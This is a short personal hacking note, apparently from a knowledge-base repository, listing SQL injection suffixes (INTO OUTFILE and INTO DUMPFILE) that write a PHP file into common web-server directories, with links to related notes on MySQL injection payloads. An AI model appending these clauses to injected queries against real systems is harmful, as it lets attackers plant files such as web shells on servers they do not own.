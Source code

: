 # mariadb mysql files write
at the end of the query
`INTO OUTFILE 'c:\\inetpub\\wwwroot\\test.php'`
`INTO OUTFILE '/var/www/html/test.php'`
`INTO DUMPFILE 'c:\\inetpub\\wwwroot\\test.php'`
`INTO DUMPFILE '/var/www/html/test.php'`

` zet/20221003150980/README.md `

# Related

- [20221003151192](/zet/20221003151192/README.md) HTTP to try list
- [20221003150985](/zet/20221003150985/README.md) mariadb mysql SQLi union injection
- [20221014185735](/zet/20221014185735/README.md) kb file named kb/hacking/methodology/sqli-manual-mysql-payloads.md
- [20221003151204](/zet/20221003151204/README.md) got access to databases - general SQL
- [20221012153512](/zet/20221012153512/README.md) database
- ~/kb/hacking/methodology/sqli-manual-mysql-payloads.md
- [20221003150988](/zet/20221003150988/README.md) mariadb mysql

Tags:

    #hacking #sqli #database #file #trick
